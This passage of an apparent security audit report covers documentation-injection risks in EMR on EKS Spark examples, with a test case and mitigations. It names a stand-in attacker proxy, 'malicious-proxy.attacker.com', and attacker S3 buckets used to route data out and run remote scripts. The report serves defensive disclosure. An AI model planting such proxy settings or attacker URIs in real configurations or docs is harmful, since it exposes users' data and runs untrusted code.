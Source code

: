         },
        "s3MonitoringConfiguration": {
          "logUri": "s3://joblogs"
        }
      }
    }
    ```
    - Copying this snippet configures Spark jobs to route S3 traffic through `malicious-proxy.attacker.com:8080`, potentially exposing data to the attacker.

- **Security Test Case:**
    1. Modify `/code/content/submit-applications/docs/spark/pyspark.md`.
    2. Inject the malicious `configurationOverrides` snippet above into a code example.
    3. Commit and push changes.
    4. As a test user, copy the modified code example.
    5. Execute the `aws emr-containers start-job-run` command against a test EMR on EKS virtual cluster.
    6. Observe Spark job execution and network traffic. Network analysis should show attempts to connect to `malicious-proxy.attacker.com:8080` when accessing S3. Monitoring logs might show S3 access errors if the proxy is not set up correctly.
    7. This confirms that malicious configurations can be injected and applied to a user's EMR on EKS environment through copy-pasting.


### 3. Code Injection via Malicious S3 URI in Examples

- **Description:** An attacker can replace legitimate S3 URIs in documentation code examples with malicious ones. Users who copy-paste these examples could inadvertently interact with attacker-controlled S3 buckets, leading to data exfiltration or execution of malicious code. Trigger steps:
    1. Modify a markdown file (e.g., `/code/tools/start-job-run-converter/README.md`).
    2. Replace a legitimate S3 URI with a malicious one, e.g., `s3://<s3 bucket>/health_violations.py` to `s3://attacker-bucket/malicious_script.py`.
    3. A user copies the modified code example.
    4. The user executes the modified script, including the `aws emr-containers start-job-run` command with the malicious S3 URI.
    5. The Spark job attempts to execute the script from the attacker-controlled S3 bucket.

- **Impact:** By controlling S3 URIs, an attacker could:
    - Trick users into running malicious scripts as their Spark job entry point.
    - Exfiltrate data by directing job outputs to an attacker-controlled S3 bucket.
    - Cause denial of service by pointing to non-existent or excessively large files in S3.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:** None. The project is documentation and sample code and doesn't inherently prevent copy-pasting malicious content.

- **Missing Mitigations:**
    - Implement a security review process for all documentation changes, especially code examples, to detect and prevent injection of malicious S3 URIs.
    - Add a clear warning in the documentation advising users to carefully review and validate S3 URIs in code examples, ensuring they point to trusted and expected locations.

- **Preconditions:**
    - An attacker needs to modify documentation files in the repository.
    - A user must copy and paste the malicious code example and execute it in their EMR on EKS environment.

